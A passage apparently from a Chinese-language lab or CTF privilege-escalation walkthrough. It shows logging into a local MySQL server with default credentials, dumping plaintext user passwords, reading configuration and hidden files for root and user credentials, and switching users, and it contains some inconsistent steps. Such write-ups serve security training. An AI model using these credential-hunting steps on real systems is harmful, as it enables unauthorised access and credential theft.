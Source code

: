 
## 8）方法（八）mysql

内网信息收集发现本地mysql开启状态！

mysql -uroot -proot   ---成功登录

show databases;
use user
show tables;
select * from user_info;

+----------+-------------+
| username | password    |
+----------+-------------+
| mysql    | mysql@12345 |
+----------+-------------+

su mysql
mysql@12345

find / -name mysql 2>/dev/null
/etc/apparmor.d/abstractions/mysql
/etc/init.d/mysql
/etc/mysql
/var/mysql

cd /etc/mysql
cat secret.cnf
This file contain sensitive information 

Root Credentials :

UserName:root
PassWord:root@12345

su root
12345


cd /var/mysql
ls -la
cat .user_informations
cat: .user_informations: Permission denied
chmod 600 .user_informations
user2:user2@12345
user3:user3@12345
user4:user4@12345
user5:user5@12345
user6:user6@12345
user7:user7@12345
user8:user8@12345



## 9）方法（九）user7-NFS（项目二十一）
